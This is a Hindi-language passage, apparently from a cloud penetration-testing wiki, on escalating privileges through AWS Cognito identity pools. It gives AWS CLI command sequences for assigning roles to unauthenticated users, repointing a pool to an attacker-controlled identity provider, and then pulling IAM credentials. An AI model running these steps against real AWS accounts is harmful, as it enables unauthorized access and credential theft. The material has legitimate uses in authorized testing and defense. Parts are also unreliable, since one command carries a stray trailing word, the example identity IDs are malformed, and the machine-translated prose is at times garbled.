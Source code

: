 {% content-ref url="../aws-services/aws-cognito-enum/" %}
[aws-cognito-enum](../aws-services/aws-cognito-enum/)
{% endcontent-ref %}

### Identity Pool से प्रमाण पत्र जुटाना

क्योंकि Cognito **प्रमाणित** और **अप्रमाणित** **उपयोगकर्ताओं** को **IAM भूमिका प्रमाण पत्र** प्रदान कर सकता है, अगर आप किसी एप्लिकेशन के **आईडेंटिटी पूल आईडी** का पता लगाते हैं (जो इसमें हार्डकोड किया गया होना चाहिए) तो आप नए प्रमाण पत्र प्राप्त कर सकते हैं और इसलिए प्राइवेस्क (जहां आपके पास पहले से कोई प्रमाण पत्र नहीं था)।

अधिक जानकारी के लिए [**इस पेज की जाँच करें**](../aws-unauthenticated-enum-access/#cognito)।

**संभावित प्रभाव:** अनऑथ उपयोगकर्ताओं से जुड़े सेवाओं की भूमिका प्रमाण पत्र को सीधे प्राप्त करना (और संभावित रूप से प्रमाणित उपयोगकर्ताओं से जुड़े वाले को भी)।

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

इस अनुमति के साथ आप **कोग्निटो ऐप** के प्रमाणित/अप्रमाणित उपयोगकर्ताओं को **कोई भी कोग्निटो भूमिका** प्रदान कर सकते हैं।
```bash
aws cognito-identity set-identity-pool-roles \
--identity-pool-id <identity_pool_id> \
--roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374" ole
```
यदि cognito ऍप **अनअथेंटिकेटेड यूज़र्स सक्षम नहीं है**, तो आपको इसे सक्षम करने के लिए अनुमति `cognito-identity:UpdateIdentityPool` भी चाहिए हो सकती है।

**संभावित प्रभाव:** कोई भी cognito रोल को सीधे वृद्धि।

### `cognito-identity:update-identity-pool`

इस अनुमति वाले हमलावर किसी भी Cognito यूज़र पूल को अपने नियंत्रण में सेट कर सकता है या किसी अन्य पहचान प्रदाता जहां वह एक **तरीका है इस Cognito पहचान पूल तक पहुंचने के लिए**। फिर, उस उपयोगकर्ता प्रदाता पर **लॉगिन** करने से **उसे पहुंचने की अनुमति देगा जो पहचान पूल में प्रमाणित भूमिका को कॉन्फ़िगर करने की अनुमति देगा**।
```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
[--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
--cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
--identity-pool-id <id_pool_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id <identity_id> \
--logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```